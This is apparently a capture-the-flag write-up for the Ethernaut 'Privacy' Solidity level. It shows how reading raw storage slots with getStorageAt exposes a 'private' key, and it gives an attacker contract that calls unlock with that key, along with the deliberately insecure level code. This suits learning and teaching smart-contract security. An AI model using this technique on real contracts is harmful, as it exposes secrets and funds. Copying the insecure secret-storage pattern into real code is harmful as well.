 +++
title = 'Ethernaut Level 12 - Privacy'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Understand how storages work'
tags = [ 'writeups' , 'blockchain' ]
+++
# Privacy
```
The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

    Understanding how storage works
    Understanding how parameter parsing works
    Understanding how casting works

Tips:

    Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.
```
## Understanding how Storage works
> https://enderspub.kubertu.com/understand-solidity-storage-in-depth
Each EVM has a number of storage slots. Each storage slot can store 32 bytes.
* Storage stores variables, not constant
* Smaller variables are stored in the same slot until it would be filled


## Solution
Slots:
0. locked
1. ID
2. flattening, denomination, awkwardness
3. data[0]
4. data[1]
5. data[2] = key
```
await web3.eth.getStorageAt(contract.address, 5)
```
-> `0xf1b341c065a38b34e214b31a8133b46078510230cd7fa607152021ec84aab82f`


```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface Privacy {
    function unlock(bytes16 _key) external ;
}

contract Hack {

    constructor(address _target) {
        Privacy target_contract = Privacy(_target);
        // Secret key
        bytes memory b = abi.encodePacked(hex"f1b341c065a38b34e214b31a8133b46078510230cd7fa607152021ec84aab82f");
        target_contract.unlock(bytes16(b));
    }

}
```

## Level code
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```